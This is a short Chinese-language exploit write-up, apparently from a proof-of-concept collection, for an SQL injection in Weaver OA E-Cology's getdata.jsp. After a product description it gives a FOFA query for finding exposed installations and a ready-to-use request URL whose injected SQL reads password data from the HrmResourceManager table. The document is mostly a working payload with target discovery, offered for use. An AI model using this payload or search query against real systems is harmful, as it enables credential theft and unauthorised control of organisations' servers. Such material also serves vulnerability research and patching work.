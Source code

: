 ## 泛微OA-E-Cology-Getdata.jsp存在SQL注入漏洞

泛微OA E-Cology是一款面向中大型组织的数字化办公产品，它基于全新的设计理念和管理思想，旨在为中大型组织创建一个全新的高效协同办公环境。泛微OA E-Cology Getdata.jsp存在SQL注入漏洞，允许攻击者非法访问和操作数据库，可能导致数据泄露、篡改、删除，甚至控制整个服务器。

## fofa

```
app="泛微-OA（e-cology）"
```

## poc

```
http://{{Hostname}}/js/hrm/getdata.jsp?cmd=getSelectAllId&sql=select%20password%20as%20id%20from%20HrmResourceManager
```

![image-20240523193537075](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202405231935132.png)